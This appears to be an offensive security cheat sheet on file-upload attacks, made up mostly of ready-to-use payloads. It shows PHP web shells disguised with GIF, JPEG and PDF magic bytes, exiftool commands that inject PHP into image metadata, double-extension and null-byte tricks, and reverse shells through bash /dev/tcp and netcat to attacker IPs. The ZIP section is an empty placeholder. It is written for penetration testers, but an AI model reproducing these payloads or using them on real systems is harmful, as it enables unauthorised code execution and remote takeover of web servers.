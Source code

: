 # File Upload with reverse shell

### GIF

```bash
# Web shell - wshell.gif
# Magic bytes for GIF
GIF89a;
<?php system($_GET['cmd']) ?>

# reverse shell - rshell.gif
GIF89a:
<?php system('bash -i >& /dev/tcp/10.10.14.5/1234 0>&1 ') ?>
```

### JPEG

{% code overflow="wrap" %}
```bash
# file.php.jpg or file.jpg.php
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
#or
mv file.jpg file.jpg.php
```
{% endcode %}

```bash
# Magic byte for JPEG
echo -e '\xff\xd8\xff\xdb' > fake.php.jpg
vim fake.php.jpg
# Add the php script to the jpg file, such as 
# <?php system('nc 10.10.14.19 9090 -e /bin/bash'); ?> 
```

### PNG

```bash
<?php system($_GET['cmd']); ?>  //shell.php
exiftool "-comment<=shell.php" malicious.png
strings malicious.png | grep system
```

### WORD&#x20;

See [Macro section](../../rce-collection/windows/macro.md).&#x20;

### PDF

```bash
# Web shell

%PDF-1.4
<?php system($_GET["cmd"]);?>

# http://<RHOST>/index.php?page=uploads/<FILE>.pdf%00&cmd=whoami
```

Metasploit&#x20;

{% embed url="https://www.offsec.com/metasploit-unleashed/client-side-exploits/" %}

EvilPDF

{% embed url="https://www.golinuxcloud.com/embed-payload-in-pdf/" %}

[CVE-2018-9958](https://www.exploit-db.com/exploits/49116)\


### ZIP&#x20;

```
// Some code
```

